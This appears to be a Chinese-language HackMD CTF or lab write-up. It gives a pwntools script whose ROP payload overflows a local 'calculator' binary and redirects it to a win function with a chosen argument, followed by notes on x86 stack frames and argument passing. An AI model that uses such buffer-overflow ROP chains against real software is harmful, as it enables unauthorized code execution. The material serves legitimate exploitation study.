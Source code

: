 





:::success
💡 final_payload
``` python
from pwn import *

#r = remote('127.0.0.1', 33537)
p = process('./calculator')

context.arch = 'amd64'

pop_rdi_ret = 0x40119a
para1 = 0xc0febab3
win_adr = 0x40119f

input = b'q'
payload = b'a'*12
payload += p64(pop_rdi_ret)
payload += p64(para1)
payload += p64(win_adr)

p.recvuntil(b': ')
p.sendline(input)

p.recvuntil(b'[Y/n]\n')
p.sendline(payload)

p.interactive()
```
:::

## x86_傳遞參數小補充
- stack frame範例
    ![image](https://hackmd.io/_uploads/ryw_f3i0A.png)
- 假設有一個 source code ，在 `main()` 裡需要 call `foo()`。 
    ``` c
    #include <stdio.h>
    int foo ( int arg0, int arg1 ) {  
        int sum;
        int a = 2, b = 3, c = 4, d = 5;
        sum = arg0 + arg1 + a * b / c * d;
        return sum;
    }
    int main () {  
        int a, b, c;
        a = 1;
        b = 2;
        c = foo ( a, b ) ;
        printf ( "c = %d\n" , c ) ;
        return 0;
    }
    ```
    1. 正執行在 `main()` 上。
        ![image](https://hackmd.io/_uploads/BJsLq3oCR.png)
